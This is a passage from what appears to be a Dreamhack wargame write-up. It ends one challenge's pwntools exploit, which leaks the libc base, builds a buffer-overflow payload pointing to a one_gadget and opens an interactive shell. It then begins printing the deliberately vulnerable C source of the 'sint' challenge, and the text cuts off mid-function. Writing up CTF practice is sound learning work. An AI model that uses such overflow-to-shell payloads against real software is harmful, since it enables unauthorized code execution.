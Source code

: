 ```python=

libc.address = stdout - libc.sym['_IO_2_1_stdout_']
log.info(hex(libc.address))

oneshot = libc.address + one_gadget

payload = b'A'*24
payload += p64(0)
payload += b'A'*8 
payload += p64(oneshot)

input()
p.sendline(payload)

p.interactive()
```
# [sint](https://dreamhack.io/wargame/challenges/25)
## Source code
```c 
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler()
{
    puts("TIME OUT");
    exit(-1);
}

void initialize()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}

void get_shell()
{
    system("/bin/sh");
}

int main()
{
    char buf[256];
    int size;

    initialize();

    signal(SIGSEGV, get_shell);

    printf("Size: ");
    scanf("%d", &size);

    if (size > 256 || size < 0)
    {
        printf("Buffer Overflow!\n");
        exit(0);
```